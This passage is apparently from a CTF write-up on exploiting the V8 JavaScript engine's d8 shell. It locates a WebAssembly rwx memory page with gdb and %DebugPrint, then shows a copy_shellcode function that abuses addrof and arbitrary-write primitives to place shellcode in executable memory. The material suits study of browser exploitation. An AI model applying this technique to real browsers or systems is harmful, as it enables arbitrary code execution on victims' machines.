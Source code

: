    0x00000bed0805d000 0x00000bed08080000 0x0000000000000000 ---
    0x00000bed08080000 0x00000bed0818d000 0x0000000000000000 rw-
    0x00000bed0818d000 0x00000bed081c0000 0x0000000000000000 ---
    0x00000bed081c0000 0x00000bed081c1000 0x0000000000000000 rw-
    0x00000bed081c1000 0x00000bed08200000 0x0000000000000000 ---
    0x00000bed08200000 0x00000bed08280000 0x0000000000000000 rw-
    0x00000bed08280000 0x00000bee00000000 0x0000000000000000 ---
    0x00002c3409915000 0x00002c3409916000 0x0000000000000000 rwx
    0x000055eff7124000 0x000055eff740b000 0x0000000000000000 r-- /home/df/v8/out.gn/x64.release/d8      
    0x000055eff740b000 0x000055eff800a000 0x00000000002e6000 r-x /home/df/v8/out.gn/x64.release/d8
    ...[snip]...
    

Right before the segments for `d8` itself there’s a rwx segment, in this case
at 0x00002c3409915000.

Back in `db` (`c` from `gdb`), I can get the address of `wasm_instance` using
`%DebugPrint`:

    
    
    d8> %DebugPrint(wasm_instance)
    0x0bed08210e65 <Instance map = 0xbed08244901>
    [object WebAssembly.Instance]
    

Back in `gdb`, I’ll dump a bunch of memory starting at `wasm_instance`, and
the address of that segment is in there, at an offset of 0x68:

    
    
    gef➤  x/16gx 0x0bed08210e65-1
    0xbed08210e64:  0x080406e908244901      0x20000000080406e9
    0xbed08210e74:  0x0001000000007f38      0x0000ffff00000000
    0xbed08210e84:  0x0000006000000000      0x080406e900000bed
    0xbed08210e94:  0x000055eff9ac3200      0x00000000080406e9
    0xbed08210ea4:  0x0000000000000000      0x0000000000000000
    0xbed08210eb4:  0x0000000000000000      0x000055eff9ac3220
    0xbed08210ec4:  0x00000bed00000000      0x00002c3409915000 <-- address of rwx memory
    0xbed08210ed4:  0x08086f6508086e09      0x08210e4d08200f51
    

#### Write Shellcode to Segment

I’ll use the same code from Faith’s post to write shellcode into this page,
and then call `f()`:

    
    
    function copy_shellcode(addr, shellcode) {
        let buf = new ArrayBuffer(0x100);
        let dataview = new DataView(buf);
        let buf_addr = addrof(buf);
        let backing_store_addr = buf_addr + 0x14n;
        arbwrite(backing_store_addr, addr);
    
        for (let i = 0; i < shellcode.length; i++) {
            dataview.setUint32(4*i, shellcode[i], true);
        }
    }
    
